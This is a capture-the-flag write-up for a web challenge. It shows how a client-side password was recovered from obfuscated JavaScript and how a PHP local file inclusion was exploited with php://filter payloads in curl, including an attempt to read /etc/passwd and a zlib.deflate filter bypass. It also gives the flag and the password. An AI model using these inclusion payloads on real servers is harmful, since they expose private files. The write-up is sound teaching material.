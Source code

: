 # Warmup - Web [15 Solves]

## Description

> Let's warm up! <http://warmup.wargames.my>

No attachment.

## Flag

wgmy{1ca200caa85d3a8dcec7d660e7361f79}

## TL;DR

- Password verification is on the client side, and the password is got from obfuscated JavaScript code.
- By LFI (Local File Inclusion), flag_for_warmup.php containing the flag is got.

## Solution

Opening given URL, it showed a password input form.

![input_password](img/input_password.png)

As a test, entering `test`, an error was output indicating that it was an incorrect password.

![input_password_wrong.png](img/input_password_wrong.png)

Inspecting the HTML code using `view-source:`, I found that a JavaScript file named `/static/script.min.js` is being loaded.

![view-source_script.min.js.png](img/view-source_script.min.js.png)

Opening this JavaScript file in the Sources tab in DevTools, it revealed obfuscated JavaScript code.

![script.min.js_obfuscated.png](img/script.min.js_obfuscated.png)

I suspected that password verification is on the client side, so I set breakpoints at various locations and repeated entering the password.
When setting a breakpoint in the part of if condition, I found that a URL path and what seemed like a password string were defined in a local variable.

![script.min.js_breakpoint.png](img/script.min.js_breakpoint.png)

- `eRLSQ: "/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php"`
- `qXezE: "this_password_is_so_weak_i_can_crack_in_1_sec!"`

Entering the password `this_password_is_so_weak_i_can_crack_in_1_sec!`, a message was displayed indicating that it is the correct password.

![input_password_correct.png](img/input_password_correct.png)

The message `The flag is in the comments` was displayed.
Opening the Network tab in DevTools and looking at the requests made when entering the password, a request to the URL path starting with `/api/...` was found.
The response to that request contained the message `<!-- well, maybe not this comment -->`, which is an HTML comment.

![api_comment.png](img/api_comment.png)

The URL of this request was `http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php`.
It executes a PHP file named `4aa22934982f984b8a0438b701e8dec8.php`, with the query parameter `x` set to `flag_for_warmup.php`.
I suspected that `flag_for_warmup.php` is included using the `include()` function, and the flag is in a PHP comment rather than HTML comment.
I considered to get the source code of `flag_for_warmup.php`.

By using PHP's `php://filter`, it is possible to get the PHP code without rendering HTML after it is interpreted as PHP.
I decided to use this method, and it seems feasible with some form of encoding like Base64.
I referred to examples of payloads in [File Inclusion - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/File%20Inclusion/#wrapper-phpfilter).

```console
$ curl -k -s https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/convert.base64-encode/resource=/etc/passwd
did you just mention "convert"?? i'm quitting now
```

I tried Base64 encoding, but due to filtering, the string `convert` could not be used.
Similarly, terms like `input`, `string`, `data`, and `proc` were also restricted.

However, I was able to use `zlib.deflate`.
When I hex-dumped it with the `hd` command, I confirmed that the response was coming back correctly.

```console
$ curl -s -k -o - https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/zlib.deflate/resource=flag_for_warmup.php | hd
00000000  35 cc db 0a 82 40 10 80  e1 7b 9f 62 ba d2 a0 c5  |5....@...{.b....|
00000010  35 c9 03 2d f6 22 41 4c  eb e8 0a 7b 90 71 43 24  |5..-."AL...{.qC$|
00000020  7a f7 8a e8 f6 e3 e7 57  97 d9 cc 49 42 cc 81 6f  |z......W...IB..o|
00000030  4c 73 e0 38 f9 31 93 fb  f3 07 b5 09 59 6a 88 e9  |Ls.8.1......Yj..|
00000040  9a 2e b0 85 07 c3 60 71  04 b5 38 b4 b6 9b 3c e8  |......`q..8...<.|
00000050  e0 1c f9 a8 f2 9f 80 da  09 01 2b 59 7b 00 87 db  |..........+Y{...|
00000060  9d c0 87 08 d1 4c cb bf  04 21 ba f4 fb ce 73 58  |.....L...!....sX|
00000070  47 b7 3d 0b 8d 47 29 35  62 73 ea 4b 6c 7a 4d ba  |G.=..G)5bs.KlzM.|
00000080  ee ab 4a 52 5d 56 c5 50  b7 af e4 0d              |..JR]V.P....|
0000008c
```

To decode the received response, I referred to [this Stack Overflow post](https://stackoverflow.com/a/59982693/10819876).

```console
$ curl -s -k -o - https://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=php://filter/zlib.deflate/resource=flag_for_warmup.php | php -r 'echo gzinflate(file_get_contents("php://stdin"));'
<?php

error_reporting(0);

echo('here\'s your flag <small>in comment</small> <!-- well, maybe not this comment -->');

// wgmy{1ca200caa85d3a8dcec7d660e7361f79}
```
